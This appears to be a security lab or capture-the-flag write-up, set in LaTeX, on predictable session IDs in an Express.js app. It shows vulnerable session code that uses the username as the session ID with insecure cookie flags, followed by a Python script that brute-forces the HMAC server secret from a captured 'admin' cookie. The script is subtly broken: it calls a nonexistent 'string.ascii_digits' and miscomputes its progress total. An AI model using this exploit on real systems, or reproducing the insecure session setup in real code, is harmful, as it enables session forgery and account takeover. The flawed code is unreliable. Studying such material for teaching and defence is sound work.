 \documentclass[]{article}
\begin{document}
In the first step, the attacker needs to collect some valid session ID values that are used to identify authenticated users. Then, they must understand the structure of session ID, the information that is used to create it, and the encryption or hash algorithm used by application to protect it. Some bad implementations use sessions IDs composed by username or other predictable information, like timestamp or client IP address. In the worst case, this information is used in clear text or coded using some weak algorithm like base64 encoding.

In addition, the attacker can implement a brute force technique to generate and test different values of session ID until they successfully get access to the application.
\\ \textbf{Vulnerable code:} In \texttt{index.js}:
\begin{lstlisting}
app.use(
    session({
        secret: process.env.SESSION_SECRET,
        saveUninitialized: true,
        resave: true,
        genid: (req) => {
            const user_id = req.body.username || `1`;
            return user_id;
        },
        cookie: {
            httpOnly: false,
            secure: false,
            sameSite: "strict",
            maxAge: 36000000000
        }
    })
);
\end{lstlisting} 
\textbf{Exploitation:} Express uses the express\_session library to create a session cookie that HMACs the session id with the server secret (same for all users). Since the session id is the username, an attacker can simply brute force the server secret and then extract any session cookie having the username.
Here's an example of python exploit:
\begin{lstlisting}
defalut_charset = string.ascii_letters + string.ascii_digits + string.punctuation
def hmac_bruteforce(target_hmac, user, charset=defalut_charset, min_key_length=1, max_key_length=10):
    for key_length in range(min_key_length, max_key_length + 1):
        for j, key_attempt in tqdm(enumerate(itertools.product(charset, repeat=key_length)), total=(len(charset)*key_length), unit="attempt"):
            key = ''.join(key_attempt)
            generated_hmac = hmac.new(key.encode(), user.encode(), hashlib.sha256).digest()
            generated_hmac_b64 = base64.b64encode(generated_hmac)
            hmac_obtained = generated_hmac_b64.decode("ascii").replace("=", "")

            if hmac_obtained == target_hmac:
                return key
            if j % 3_000_000 == 0:
                print(f"Trying {key=}")

    return None

if __name__ == "__main__":
    cookie = "s%3Aadmin.H9hJuvnMJMPBP4MAXYwgcshE5CZFhIDo6dR66nIadIw"
    user = cookie.split(".")[0][4:]
    target_hmac = cookie.split(".")[-1]
    print(f"Bruteforcing {user=} {target_hmac=}")
    found_key = hmac_bruteforce(target_hmac, user, charset=string.ascii_lowercase, min_key_length=6)

    if found_key:
        print(f"Chiave trovata: {found_key}")
    else:
        print("Chiave non trovata")
\end{lstlisting}
\end{document}
